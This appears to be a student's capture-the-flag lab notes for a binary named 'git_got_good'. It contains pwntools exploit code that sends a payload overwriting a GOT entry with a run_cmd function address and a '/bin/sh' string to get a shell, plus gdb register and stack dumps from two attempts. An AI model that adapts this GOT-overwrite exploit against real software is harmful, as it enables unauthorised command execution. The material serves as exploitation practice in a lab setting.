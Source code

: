 ```python
def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./git_got_good -q')
	p.sendline("break *0x0000000000400800")
	p.sendline("r")
	d = p.recvuntil("save:")
	p.sendline(pld())
	p.interactive()
```
###### Registers
```
Breakpoint 1, 0x0000000000400800 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
 registers ────
$rax   : 0x68732f6e69622f  
$rbx   : 0x00007fffffffdef8  →  0x00007fffffffe268  → "/home/kali/Desktop/5-Week/git_got_good"
$rcx   : 0x40534fa24da000  
$rdx   : 0x4b07400000000000
$rsp   : 0x00007fffffffddc0  →  0x0068732f6e69622f ("/bin/sh"?)
$rbp   : 0x00007fffffffdde0  →  0x0000000000000001
$rsi   : 0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rdi   : 0x00007fffffffdbe0  →  0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rip   : 0x0000000000400800  →  <main+149> mov QWORD PTR [rcx], rax
```
###### Stack
```
0x00007fffffffddc0│+0x0000: 0x0068732f6e69622f ("/bin/sh"?)     ← $rsp
0x00007fffffffddc8│+0x0008: 0x4b07400000000000
0x00007fffffffddd0│+0x0010: 0x0040534fa24da000
0x00007fffffffddd8│+0x0018: 0xbd2acba24bd33000
0x00007fffffffdde0│+0x0020: 0x0000000000000001     ← $rbp
```

I'm not sure what happened to my `rcx` but I know my `rdx` is reversed
	Maybe I need to reverse them both? Do addresses not get reversed? or maybe they got un-reversed?
##### Attempt 2:
###### Code
```python
def pld():
	cmd = p64(0x68732F6E69622F)
	rcAddr = p64(0x000000000040074B)
	pAddr  = p64(0x0000000000601018)
	return cmd + rcAddr + pAddr

def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./git_got_good -q')
	p.sendline("break *0x0000000000400800")
	p.sendline("r")
	d = p.recvuntil("save:")
	p.sendline(pld())
	p.interactive()
```
###### Registers
```
$rax   : 0x68732f6e69622f  
$rbx   : 0x00007fffffffdef8  →  0x00007fffffffe268  →  "/home/kali/Desktop/5-Week/git_got_good"
$rcx   : 0x0000000000601018  →  0x00007ffff7e40b00  →  <puts+0> push r14
$rdx   : 0x000000000040074b  →  <run_cmd+0> push rbp
$rsp   : 0x00007fffffffddc0  →  0x0068732f6e69622f ("/bin/sh"?)
$rbp   : 0x00007fffffffdde0  →  0x0000000000000001
$rsi   : 0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rdi   : 0x00007fffffffdbe0  →  0x00007fffffffdc10  →  0x206d2749202c6b4f ("Ok, I'm "?)
$rip   : 0x0000000000400800  →  <main+149> mov QWORD PTR [rcx], rax
```